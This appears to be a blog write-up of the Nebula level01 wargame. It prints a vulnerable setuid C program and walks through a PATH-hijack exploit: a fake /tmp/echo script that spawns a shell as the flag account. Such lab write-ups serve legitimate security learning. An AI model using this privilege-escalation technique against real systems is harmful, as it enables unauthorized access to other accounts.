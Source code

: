 ```yaml
---
title: "Exploit Exercises - Nebula 01"
date: "2011-12-02T06:18:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-01.html"
 - "/2011/12/01/exploit-exercises-nebula-01"
---
```


Continuing from my previous post, I started tinkering with the next Nebula wargame: [Nebula 01](http://exploit-exercises.com/nebula/level01). This one gives you some C code, which has a bug in it. You have to exploit that bug.

<!-- more -->

```
#include <stdlib.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
 gid_t gid;
 uid_t uid;
 gid = getegid();
 uid = geteuid();

 setresgid(gid, gid, gid);
 setresuid(uid, uid, uid);

 system("/usr/bin/env echo and now what?");
}
```

If you read through the code, you may notice that it's calling "echo" with some text appended, to echo it to the screen. How it's being called, it is loading the path to "echo" from the environment settings. It'll read what's in the path. To exploit this, all we have to do is modify the path.

```
level01@nebula:/home/flag01$ PATH=/tmp:$PATH
level01@nebula:/home/flag01$ export PATH
level01@nebula:/home/flag01$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Now, if "echo" is called, it'll look in /tmp first. So let's start tinkering. My first thought was to just make a symbolic link to /bin/bash, to get me a shell.

```
level01@nebula:/home/flag01$ ln -s /bin/bash /tmp/echo
level01@nebula:/home/flag01$ ./flag01
echo: and: No such file or directory
```

However, that didn't work, because it was essentially calling bash with the parameters of "and now what?". To get around that, I figured I'd wrap it in a bash script, which just ignored any parameters. I deleted the /tmp/echo file I created, and tried over.

```
level01@nebula:/home/flag01$ rm /tmp/echo
level01@nebula:/home/flag01$ ln -s /bin/bash /tmp/echo2
level01@nebula:/home/flag01$ echo -e '#!/bin/bash\n/tmp/echo2' > /tmp/echo;chmod +x /tmp/echo
level01@nebula:/home/flag01$ ./flag01
flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
```

This time it was successful, so I again, ran "getflag".  Now I have another level complete.
